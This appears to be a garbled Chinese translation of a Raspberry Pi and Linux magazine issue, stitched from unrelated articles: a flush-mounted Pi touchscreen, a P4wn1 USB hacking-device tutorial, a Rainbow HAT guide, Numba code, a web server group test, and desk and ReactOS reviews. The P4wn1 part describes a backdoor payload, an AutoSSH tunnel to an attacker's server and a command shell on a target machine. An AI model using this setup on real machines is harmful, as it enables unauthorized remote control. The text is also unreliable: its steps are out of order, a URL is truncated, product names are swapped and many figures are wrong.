它已经运行了两年多。我使用 `FlashForge Creator Pro` 和 `SketchUp` 完成所有工作，设计了一些让生活变得轻松的小物品，比如把圣诞灯固定在电池上的夹子，或者固定我的 Wi-Fi。

我才刚开始接触家居自动化。我增加了几个 Wi-Fi 开关（`Switch-HS2202`），它们运行良好。我还在冰箱上添加了一些传感器，以后可能还会增加一些。对我来说，让我的家居自动化开源是非常重要的——我正在考虑更多关于家里的想法。我观察了一下，最后选定了 `Home Assistant` 项目（`home-assistant.io`）。它拥有适用于所有设备的适配器，并且完全开源。我在壁衣柜里为树莓派准备了一个小盒子。然后我发现了 `HAADashboard-project`，它为 `Home Assistant` 提供了一个现成的、极具吸引力的结果。

我仍在研究树莓派的墙面设计。

### 让我的项目开源非常重要

在墙上或通过夹子固定在固定的盒式支架上。我用 `PLA` 打印了所有部件，这让变得简单。这些是我用 `PLA` 制作的一些较大的部件，起初遇到了一些问题。我必须通过将热床温度提高到 50 摄氏度来解决翘曲问题。这包括风扇设置、最小温度以及 200 摄氏度的喷嘴温度。

### 在开发过程中面临了哪些挑战？没有从同伴那里获得有用的反馈吗？

### 该设计有一个智能家居触摸屏。你使用了哪些节省空间的技巧？

我完全没有任何空间；我希望屏幕与墙面平齐，所以电子设备需要放入墙内的电线盒中。树莓派挂在触摸屏背面，在经过几次修改（我不得不做的修改）之后，边框才正常贴合。

我最初的版本是将部件包裹在一个 `USB Case` 外壳中。我无法将其直接连接到电线盒并固定，因此需要寻找其他方法。最后我使用了一个大得多的盒子来装下它。我收到了很多反馈，认为这种方法感觉不安全，一个人建议使用 `C` 型扩展线，效果会很好。根据这个建议，我用它替换了 `USB` 外壳，购买了这两个部件并更新了设计。我还创建了一个直接使用树莓派本身就能完美运行的版本。完全不需要高压连接。我的最终项目展示了两种屏幕供电方法。

在挤进去之后，留给边框的空间已经不多了，尤其是考虑到所有的高压连接。我设计了一组三块墙板和滑块，允许它们插入并轻松取出。这在背面创造了一个 `L` 型空间，足够容纳几根五类线（`RJ` 皮护线）、一个外壳和一个 `USB` 电源适配器。我曾找到一种安装边框的方法，使用一个螺丝固定在盒子上的支架和一个插入其中的边框。一旦组装好，这种边框是最好的。

### 喜欢吗？

要查看 `Peter` 项目的完整演示，请访问 `http://bit.ly/WantAFlushPi`，他在那里展示了使用以太网传输 `120 VAC`（美国标准）电触摸屏说明。

### 延伸阅读

`Peter` 使用 `SketchUp` 进行设计工作，如果你想在本项目中尝试，可以在 `https://github.thingiverse.com/2749782` 找到所有使用 `Bezel_2` 和 `Faceplate_2` 的记录。

## 适用性

该设计要求墙内和背盒内完成所有的布线。为了让这个项目落地，你可以在墙内铺设五类线（或者你可以自己铺设），并对你的电缆布线质量有信心；如果你有任何疑虑，请咨询合格的电工！

## 平齐安装

## 组件列表

- `树莓派 3 Model B`
- `MicroSD` 卡
- `3D` 打印边框
- `3D` 打印盒
- 五类线
- 以太网线
- `USB` 电源适配器
- 跳线缆
- 扩展线
- `USB` 外壳
- 螺丝

- 一个 `USB` 以太网适配器和以太网线（无需折腾 Wi-Fi 设置即可访问互联网）
- 一根 `Mini HDMI` 转 `HDMI` 的连接线和一个显示器，用于将 `Pi` 连接到
- 一个标准 `USB` 键盘
- 一张 `microSD` 卡

如果你真的想让 `Pi` 看起来像一个 `USB` 设备，请查看 `D-E` 外壳——在资源（`Resources`）部分有一个链接。如果你没有使用 `N-D-E`，某些部分对你可能有用，你需要一根 `USB` 转 `Micro-SD` 线将 `Pi` 连接到目标电脑。

## 02 准备 - 设置

下载最新版本的 `Raspberry Pi Lite`，我们建议使用 `Etcher` 将镜像写入你的 `microSD` 卡中。
一旦安装了 `Raspberry Pi Stretch Lite`，插上显示器和键盘并启动。你也可以使用 `ssh` 完成此步骤，前提是你可以通过检查路由器或使用网络扫描仪找到 `Pi` 的 IP 地址。




`mame42/P4wn1`

`./install.sh`

```bash
# 泡杯茶，安装可能需要一些时间。完成后，记下屏幕显示的 Wi-Fi 名称、密钥和 SSH 信息。我们稍后可以更改其中任何内容：
```

## 04 测试连接

现在一切都准备就绪，我们应该有了一个基础工作的 P4wn1 USB 设备。在设置负载（payload）和自定义设置之前，测试一切是否运行良好是好的。我们需要两台电脑，一台作为目标，另一台作为我们的控制“攻击者”。

请使用 Pi 的 USB 端口（用于数据而非供电）将 Pi 插到目标机器——这必须是一台已开启电脑。你会注意到几点：目标机器将显示“正在设置设备（Setting up a device）”。此时，新设备将被命名为“P4wn1 by MaMe82”我们可以更改它的名称。在目标机器上，我们应该看到一个名为 P4wn1 的 Wi-Fi 网络，这意味着它正按预期工作。

就像任何镜像扫描器一样。登录后，登录信息为：用户名：`pi`，密码：`raspberry`。

接下来我们需要安装`git`并下载`raspberry`的克隆版本，它是将 Pi 转换为 USB 设备的工具。

## 03 安装 - git clone P4wn1

逐行运行以下命令：

```bash
mkdir ~/p4wn1
sudo apt-get install git
git clone --recursive https://github.com/
```

## 05 自定义你的 USB

现在 Pi 已经运行，我们想将其插入显示器，或者像之前那样，通过我们记录的地址（`172.24.0.1`）通过 SSH 远程连接。切换目录到`~/P4wn1`并运行`nano setup.cfg`。在这里你会看到一系列设置，但忽略那些与我们的负载配置无关的内容。我们接下来要做的是滚动到文档末尾，并取消我们选择的负载的注释。我们将使用`hid_payload.txt`，它开启了 RubberDucky 功能的所有特性。务必用`#`注释`network.txt`负载并保存。

### 设备就绪
`P4wn1 by MaMe82`已设置好并准备就绪。

### 设置你的负载

我们正在设置`P4wn1 by MaMe82`：

切换目录到`payloads`并使用`nano`编辑相应的配置文件，在此例中为`hid_backdoor_remote`。我们可能想要更改几个设置，但重要的是`WIFI_ACCESSPOINT_NAME`和`WIFI_ACCESSPOINT_PSK`，即 SSID 和密码。

## 教程

# 远程黑客设备

# 一个强大的武器

我们的 Raspberry Pi Zero 不再是一个高级的 Rubber Ducky USB 设备。我们对远程机器拥有完全控制权，它可以运行在 Windows、Linux、macOS 甚至 Android 上。请负责任地使用此工具！

远程连接你的 USB Pi 所需密码。将键盘语言设置（`lang`）从`us`更改为`gb`可能也有用。此负载中有些有趣的东西，即远程连接或 AutoSSH。这将允许设备自动连接到你选择的服务器，SSH 提供了一个后门隧道。



```bash
ssh user@host -p [port]
```

## 07 通过 Wi-Fi 攻击

虽然 AutoSSH 功能特别适用于离线或远距离攻击，但为了符合本教程的视距和范围限制，我们将展示如何通过本地 Wi-Fi 连接进行攻击。将 Pi 插入目标机器并通过 SSH 远程连接。此更安全的方法（而不是使用笔记本电脑连接）是使用安装了终端/SSH 客户端。连接后，输入`help`查看命令列表。如果你不更改键盘，目标机器——用户可以访问，输入`shell`将给你一个 MS-DOS 命令提示符，运行一些基础命令如`dir`，输入`exit`退出 shell。

## 教程

# Pimoroni Rainbow HAT


# 开始使用 Pimoroni Rainbow HAT

# 结合 LED、触摸按钮和传感器读取，创建一个实时温度显示

Dan Aldred 是一位树莓派爱好者、教师和编码员，他喜欢创建新项目和各种黑客技巧来激励他人开始学习。他目前正在研究树莓派 Google Home Assistant。


# 资源

- 树莓派 Pi
- Pimoroni Rainbow HAT
`https://www.pimoroni.com/products/rainbow-hat-for-android-things`

打开窗口并逐行输入以下代码行。完成后，重启你的树莓派。

```bash
sudo update
sudo upgrade
sudo curl -sS https://get.pimoroni.com/Rainbow
bash
```

# 02 字母数字显示段

为了开始学习，让我们尝试一个简单的程序来显示一些文本。这四个显示块有多种颜色，可以用于显示温度、压力甚至当前时间。打开你的 Python 3 编辑器并输入以下代码。


Pimoroni 擅长为树莓派制作出色的硬件扩展板（HATs）。去年他们推出了 Rainbow HAT，正如预意那样，它堆叠了许多传感器、输入和显示器，以探索你的兴趣。你可以将其用作气象站、时钟、流量灯或完全不同的用途。

本教程将带你了解 Rainbow HAT 的一些主要功能，例如控制 LED 和读取温度。然后我们将开始编写十个 LED 的代码：就像 LED 和 Rainbow HAT 迷你。将它们与内置的压电蜂鸣器和三个触摸按钮结合，你将拥有一台全功能的音乐迪斯科机。

在教程的最后部分，我们将创建一个实时温度显示器，随着春天温暖的临近，温度升高，它会改变并混合蓝色、橙色和红色色调。

此程序导入了模块，设置要显示的文本并在块上显示文本。尝试添加你的四个字母单词（小心操作……）。

```python
import rainbow

rainbow.display.print_str("LU&D")

rainbow.display.show()
```

# 03 音乐蜂鸣器

HAT 内置了一个压电蜂鸣器，可以播放不同的频率，产生不同的音符。音符基于标准的 MIDI 值，其中 `60` 是中五八度的 `C`。第二个值是音符播放的秒数。在移动下一个音符之前，记得为每个单独的音符添加更多笔记。

# 安装 HAT

关闭你的树莓派，将 Rainbow HAT 的 GPIO 插针插入 GPIO 引脚中——所有的 HAT 设计得非常完美，因此硬件会完全到位。所有 Pimoroni 产品的安装过程都是干净的，并且包含了大量的示例代码和项目。启动你的树莓派，打开终端。

```python
import rainbow

rainbow.buzzer.midi_note(60, 2)
```

# 全尺寸 LED

HAT 顶部的七个主 LED 较大，并且可以调节颜色和亮度。要打开所有 LED，我们使用第 3 行的`set_all`代码。其后跟着四个值：前三个是红、绿、蓝的量，最大为 `255`。最后一个数字设置亮度，级别 `1` 为全亮，`0` 为最低。要关闭 LED，我们将所有值设为 `0`（第 6 行），然后显示 LED。


添加以下代码尝试颜色，可以看到什么效果。

# 读取温度

此程序演示了如何读取温度并显示在显示块上。首先，创建一个变量来存储温度。然后使用`rainbow.temperature()`代码读取数值（第 2 行）。读取值需要转换为浮点数并在块上显示（第 3 行）。然后在第 4 行显示读取结果。注意，温度比实际值高，这是因为 CPU 和 HAT 会产生剩余热量。

```python
import rainbow

temperature = rainbow.weather.temperature()

rainbow.display.print_float(temperature)

rainbow.display.show()
```

# 微型 LED

HAT 有三个微型 LED，可以作为指示灯或状态灯。第一个是红色，第二个是绿色，第三个是蓝色。这些颜色可以根据需要进行调整。

# 单独 LED

你也可以单独控制每个 LED。如果你总共有 `16581` 种颜色，这将非常有用；结合亮度设置，你将拥有任何项目所需的组合。使用`rainbow.set_pixel(position, number)`控制单独 LED，在示例中`position`是物理 LED 编号（从 `0` 开始）。接下来的三个数字对应红、绿、蓝（RGB）。

```python
rainbow.set_pixel(0, 255, 0, 0)
```


`rainbow.display.show()`

程序正在循环。保存文件，运行并创建你的旋律。

```python
@rainbow.touch.release()
def release(channel):
    rainbow.lights.rgb(0,0,0)
    signal.pause()
```

## 构建实时温度传感器 - 部分 1

在这一部分，我们将结合 `Rainbow HAT` 硬件和传感器来创建一个实时温度显示器。打开一个新的 `Python` 文件并导入模块。第 3 行，使用 `while` 循环并将线程存储在名为 `temperature` 的变量中，第 4 行。

第 5 行，将读取值转换为浮点值，第 6 行将该值显示在屏幕上。由于它被封装在循环中，程序将不断读取温度并相应地更新显示。

- `import rainbow`
- `import time`

```python
while True:
    temperature = rainbow.weather.temperature(c)
    float(temperature)
    rainbow.display.print()
    rainbow.display.show()
```

```python
import rainbow
import time

while True:
    temperature = rainbow.weather.temperature()
    rainbow.display.print(float(temperature))
    rainbow.display.show()
    print(temperature)
    if temperature < 16:
        rainbow.set_all(0, 0, brightness=0.1)
        rainbow.display.show()
    elif temperature > 25:
        rainbow.set_all(255, 0, 0, brightness=0.1)
        rainbow.display.show()
    else:
        rainbow.set_all(0, 255, 0, brightness=0.1)
        rainbow.display.show()
```


## 构建实时温度传感器 - 部分 2

在这一步中，我们将温度与 `16` 的预设值进行比较。第 1 行检查温度是否小于 `16` 度（`60.8` 华氏度），第 2 行检查是否大于 `25` 度。结果存储在名为 "blue" 的变量中，并在第 3 行用于设置 LED 颜色。温度越低，用于更新 RGB 值的蓝色就越少。

```python
if temperature < 16:
    blue = temperature * 6
    rainbow.rainbow.set_all(0, blue, brightness=0.1)
    rainbow.display.show()
```

## 构建实时温度传感器 - 部分 3

现在检查高值 - 它可能在 `40` 度左右。第 1 行代码位于此处，因此所有绿色值设置为 `0`（第 2 行），并将 RGB 值设置为 `255, 0`。这会产生深艳的红色来表示热量。

```python
elif temperature > 42:
    green = 0
    rainbow.rainbow.set_all(255, green, brightness=0.1)
    rainbow.display.show()
```

## 构建实时温度传感器 - 部分 4

如果温度在 `17` 到 `39` 度之间，则 LED 显示为橙色，并随着温度接近 `40` 度，强度逐渐增加。红色和绿色的组合产生了橙色，因此数值根据温度的乘积围绕绿色分量变化（第 2 行）。将值分配给 LED（第 4 行），并在显示到 LED 之前。根据你的气候调整这些值，保存并运行。你现在有了实时温度！

```python
else:
    green = 255 - temperature * 6
    print(green)
    rainbow.rainbow.set_all(255, green, brightness=0.1)
    rainbow.display.show()
```

## Android Things

除了使用树莓派和 `Python` 编写此项目外，你还可以使用 `Android Things`。如果你读得没错，`Google` 已为 `Rainbow HAT` 编写了驱动程序。只需参考 `Android Things for Raspberry Pi` 教程，它将帮助你使用 `Android SDK`，你可以开始开发自己的应用。你可以在 `Google` 的 `github` 站点找到项目程序和代码示例：`https://github.com/androidthings/contrib-drivers/master/rainbow`，还可以找到平均颜色参考：`https://blog.piromoni.org/rainbow-in-depth`。



## 使用 Numpy 加速

在本期中，我们将介绍如何在树莓派的 `Python` 代码中使用 `Numpy` 来加速所有操作并榨取性能。

> 由于性能原因，这是 `Python` 代码中一直存在的问题。

这很大程度上源于其他语言的编程技术，这些技术在 `Python` 中的工作方式并不相同。这类问题通常通过 `Numpy` 以更符合 `Python`（Pythonic）的方式处理。

虽然 `Python` 在大多数情况下足够用，但人们渴望榨取每一比特性能。在这种情况下，我们有不同的方法。在这里，我们将看看 `Numpy` 生成的内容，它可以替换你的 `Python` 代码。

```bash
virtualenv --system-site-packages -p python3 env
source env/bin/activate
```

如果你在另一台机器上开发，可能应该使用 `Anaconda` 安装。如果没有，我们将通过以下命令查看 `Numpy`：

```bash
pip install numpy
```

```python
def my_sum(x, y):
    return x + y
```

这告诉我们代码生成器接收 `int32` 作为输入并返回相同的结果。但有多种方法可以利用 `Numpy` 来帮助获取最快代码。这很大程度上取决于你的数据以及数组类型的变化程度。

```python
@jit(int64=True)
```

`Numpy` 代码优化基于装饰器，可以为你的函数添加装饰器以允许 `LLVM` 编译器编译你特定的 `Python` 架构。最简单的方法是在你定义的函数编译过程中使用，如下：

```python
from numba import jit

@jit
def my_sum(x, y):
    return x + y
```


通常编译后的代码对象只在代码运行时存在。你可以通过向 `jit` 装饰器添加缓存文件来保存编译结果。这告诉 Numpy 将对象保存到文件中，以便在下次运行程序时可以使用。


# 技术购买建议的来源

`techradar.com`

## 测评

`81 Group 测试 | 86 硬件 | 88 发行版 | 90 免费软件`


# 组测

## 轻量级 Web 服务器

不需要流行 Web 服务器中所有的花哨功能吗？这里有一些替代方案，它们提供所有常规功能，而不会过剩。

`Cherokee` 是一款突出的 Web 服务器，其“速度极快”。它易于配置，并运行在所有操作系统平台上。该 Web 服务器支持许多实用的现代网络请求，用于托管所有静态和动态内容以及 Web 应用。`cherokee-project.com`

`Hiawatha` 的表现远超它的名誉，因为它声称在代码和功能方面都考虑了安全性。它也易于配置和维护，且发布时没有部署风险。它在不消耗资源的情况下实现了这一点。`www.hiaw-webserver.org`

`Lighttpd` 最流行的轻量级 Web 服务器之一，`Lighttpd` 为许多网站和 Web 主机服务。该 Web 服务器专门为高性能环境设计，支持所有常规功能并符合标准。`lightpd.net`

`Nginx` 从统计数据来说，`Nginx` 是最流行的轻量级 Web 服务器。除了高性能 `HTTP` 服务器外，这种跨平台 Web 服务器还被用作反代理、`IMAP POP3` 代理服务器并经常作为负载均衡器。`nginx.org`

# 测评轻量级 Web 服务器

### `Cherokee`

快速、功能丰富、非常灵活且易于配置

### `Hiawatha`

特别关注安全性，并具有可读的配置语法



- `Cherokee` 管理界面中的每个屏幕都有指向相应文档章节的链接以寻求帮助



- `Hiawatha` 也可以用作反代理和应用框架

# 安装

`Cherokee` 在 `Fedora` 等某些发行版的存储库中提供了预包二进制文件。在 `Debian` 和 `Ubuntu` 等其他发行版中，你必须从源码编译服务器。这个过程不像某些其他软件那样复杂或容易失败，主要是因为 `Cherokee` 的依赖项很少。

# 安装

该跨平台 Web 服务器以源码 tar 包的形式正式提供。文档指向了包含 `Debian`、`CentOS`、`Ubuntu` 等更多流行发行版的预编译二进制文件的章节。监控器作为一个重要组件，仅提供源码形式。

# 值得关注的功能

除了易于安装外，`Cherokee` 还提供了一些实用的功能。它支持 `FastCGI`、`PHP`、`CGI`、`TLS/SSL`、高效缓存和流量共享功能。还支持流行的 Web 应用框架和应用服务器，包括 `Django`、`Ruby on Rails`、`Zend`、`Ghostfish` 和 `Collision`。

# 值得关注的功能

`Hiawatha` 现代 Web 服务器的所有体验。它内置了安全功能和处理复杂请求的配置选项。服务器使用 `mTLS` 库而不是 `OpenSSL`，并自带一个加密脚本，该脚本从服务器配置文件中提取相关值来生成证书。

# 管理易用性

`Cherokee` 设计用于帮助配置部署的 Web 服务器几乎所有方面。默认情况下，它监听 `localhost`，但可以使其监听网络上的任何 `IP` 地址。界面直观，消除了整体部署和管理任务（如虚拟主机和异常规则）的痛苦。

# 管理易用性

`Hiawatha` 的配置易于理解，使得 Web 服务器部署的配置方式更加一致。`Hiawatha` 还有一个 `PHP` 形式的监控工具，提供有关 Web 服务器的信息和细节，如带宽使用情况、请求数、错误和遇到的问题。

# 文档与支持

该项目涵盖了从安装到高级配置的所有问题。你可以直接浏览使用指南，或使用管理部分中的“帮助”按钮跳转到特定章节。`Cookie` 非常有趣，并帮助 `Cherokee` 完成各种任务。

# 文档与支持

该项目拥有引导用户的常规渠道。网站上的支持部分指向了从配置 `Hiawatha` 到提供所有类型的 Web 应用的详细教程。还有论坛可以提问，并有第三方提供商支持。

# 总结

`Cherokee` 拥有部署现代 Web 应用所需的所有功能，并有充分的文档支持。锦上添花的是易操作的强大工具。

# 总结

一个快速且轻量级的 Web 服务器，具有多种功能，使其成为安全意识型部署的理想选择。值得注意的是其可读性良好的配置语法。


# `Lighttpd`

# `Nginx`

一个概念性产品，现在是速度敏感型设置的选项。

第二流行的 Web 服务器提供了更多功能。





# 评测轻量 Web 服务器

## 简要：对比并分析我们的结论

| 安装 | `Cherokee` | `Hiawatha` | `Lightweightpd` | `Nginx` |
|---|---|---|---|---|
| 安装 | 某些发行版在仓库中提供，但在任何情况下从源码编译都不困难 | 除了这些，你可能会遇到很多困难才能找到预编译的二进制文件 | 可以轻松从源码编译，但在所有主流发行版的仓库中也有 | 除了源码压缩包，它还有自己的预编译二进制文件仓库 |
| 特色之处 | 具有实用的功能，并支持多个流行的框架和应用服务器 | 内置了安全作者脚本，可以获取所需的 `Let's Enc` 证书 | 支持所有实用的功能，并具有灵活的虚拟主机功能 | 除了快速之外，还可以作为 `SSL` 反向代理 |
| 管理易用性 | `Cherokee Admin` 具有简单的界面，配置服务器变得轻而易举 | `Nginx` 于配置，并且有一个基于 `PHP` 的工具 | 类似 `Apache` 的简单配置，加上可以从 `CLI` 加载的模块 | 考虑到它的 `Apache`，熟悉其配置需要一些时间 |
| 文档与支持 | 管理界面集成了帮助按钮，可以跳转到文档 | 一个受支持良好的项目，拥有丰富的文档和支持渠道 | 为新用户和经验丰富的用户提供了大量文档，以及支持论坛 | 提供基于经验水平的指南，作为一本免费的专业电子书 |
| 总体 | 图形化配置工具几乎接受其所有配置 | 它对安全的关注使其成为敏感部署的理想 Web 服务器 | 对于 `Apache` 来说很流行，设置和配置相对简单 | 不仅作为 Web 服务器有用，其与 `Django` 相关的功能也很有用

## 获胜者是

## `Nginx`

所有这些 Web 服务器都非常出色，几乎可以在每种托管环境中工作（某些部署除外）。`Apache` 有一个图形化工具，你可以通过它配置服务器，而无需处理配置文件。这使得它对于没有经验的首次用户来说是理想的。但从其网站来看，`Cherokee` 似乎已经有一段时间没有更新了，这是一个红旗。`Hiawatha` 适合对安全敏感的部署并能强制执行良好的实践，但它本质上是一个单人项目，更新有限。

除此，`Lightpd` 和 `Nginx` 之间不分伯仲。根据 Web 基准测试，`Nginx` 提供的面向外部的 Web 服务器比 `Lightpd` 多。`Nginx` 拥有服务端模块（如代理），使其成为一个可以执行负载均衡和反向代理等高级功能的优秀服务器——但熟悉它确实需要一些精力。尽管如此，`Nginx` 拥有庞大的社区和丰富的文档。`Nginx` 和 `Lightpd` 真正都在处理大量负载时大放异彩的场景是静态内容，如视频和文件。在现实世界中，人们使用它们处理一切。例如，你可以使用 `Nginx` 进行反向代理、负载均衡和 `URL` 重写，`Lightpd` 配置了相应的模块可以用于 `PHP` 脚本。顺便说一下，如果你在使用这些网站，`Apache` 可以轻松处理成千上万个 `HTTP` 请求，它通常会导致瓶颈。


`Nginx` 驱动了 29% 的最佳网站，`Apache` 为 39%。

（注：原文部分文本似乎存在乱码或占位符重复，已根据上下文逻辑进行还原翻译）




# 发现另一款优秀的桌子（注：原文 `bookazines` 似为误用占位符）

从科学和历史到技术和工艺，有几十种选择适合所有口味。





# 评测 `Varidesk Pro Plus 36`


只要你的身高合适且付得起价格——更不用说空间——这是一个非常优秀的桌子。

## 硬件
- 价格 `£365`
- 网站 `https://www.varidesk.com`
- 支持最高 `15.9kg (35lbs)`
- 弹簧升降助力，11 档高度调节
- 桌面 `36 英寸 (91.5cm) x 12.2 英寸 (31cm)`
- 底部 `36 英寸 (91.5cm) x 29.7 英寸 (75.5cm)`

用这张桌子写代码时感受肌肉的酸痛。长时间坐在桌子前对身体没有好处。规律运动和健康饮食都有帮助，但每天在桌子旁坐八（或更多）小时会导致循环不畅引起疼痛增加。它还会增加疾病和糖尿病的风险。

# Review `ReactOS 4.7`



上方是该项目从 `Subversion` 迁移到 `GitHub` 后的第一个版本，总共解决了 453 个漏洞。

# 发行版 `ReactOS 4.7`

暂时离开 `Linux`，来看看一个受 `Windows` 设计原理启发的操作系统的进展。


`ReactOS` 是一个基于 `Windows NT` 设计原理的开源操作系统。它是从零开始编写，而不是基于 `Linux` 的系统。该项目旨在为用户提供一个与 `Windows` 的环境，其软件设计用于与专有操作系统进行二进制兼容。

它致力于带来对 `Windows XP` 使用的“`mystyles`” 文件格式的支持，并减少了许多区域的视觉故障。它还解决了与剪贴板和桌面到窗口相关的可用性漏洞。这增加了许多新功能，如拖放行为，用户体验感觉更加精炼。一个改进的重要组件，得益于该项目参与了 2017 年 `GitHub` 之夏，除了核心之外，开发者还致力于视觉增强——此版本改进了对为 `Windows XP` 创建的样式的支持。`ReactOS 4.7` 中改进的视觉效果，特别是 `Garris Adamopoulos` 的工作，是此版本的一个主要讨论点。`Garris` 有

| `RAM` | 推荐 `256MB` |
| :--- | :--- |
| 存储 | 最低 `60MB` |
| 配置 | 带有 `VGA` 兼容显卡的 `x86` 处理器 |

获取地址：`https://reactos.org`

# `ReactOS` 应用程序管理器



上方开发者声称 `ReactOS` 现在支持的文件系统比 `Windows` 版本的总和多

> 开发者声称 `ReactOS` 现在支持的文件系统比 `Windows` 版本的总和多

控制面板在它发布的版本中允许你批量操作已安装的程序。你可以在下载和安装软件时继续使用该操作系统，这是无价的迭代。一些亮点之一是应用商店包含了 `LibreOffice`、`VLC`、`Firefox`、`Thunderbird`、`WinRAR`、`ReUninstaller`、`Adobe AIR`、网络等。

此版本最大的特点な是是改进的系统支持。`ReactOS 4.7` 能够处理 `ext2`、`ext3`、`NTFS` 和 `FAT` 分区。开发者声称 `ReactOS` 现在支持的文件系统比 `Windows` 版本的总和多。

其他与文件系统相关的改进包括 `Windows 2003` 文件工具的开源实现。其专有属性包含另一个版本的 `FAT` 文件系统。除了这些显性功能外，在后台，开发者在系统的内核中实现了新的 `API`，并修复了内存中的某些漏洞，以进一步提高操作系统的稳定性。

`ReactOS 4.7` 提供两个版本。一个 `Live ISO` 镜像，旨在帮助在硬件上测试该操作系统。一旦你对一切运行正常感到满意，可以使用“仅安装版”将 `ReactOS` 固定到计算机上。该操作系统的安装与任何其他操作系统一样简单，除了将操作系统传输到 `USB` 驱动器上。得益于 `ReactOS Hackfest` 的工作，`ReactOS` 可能无法在所有计算机上成功地从 `USB` 启动。

由于 `ReactOS` 仍被视为质量测试版（quality-alpha），最好将其安装在物理机上。更好，你可以使用 `QEMU` 和 `VirtualBox` 等虚拟化工具测试操作系统，这些工具对处理不同操作系统也有更好的支持。

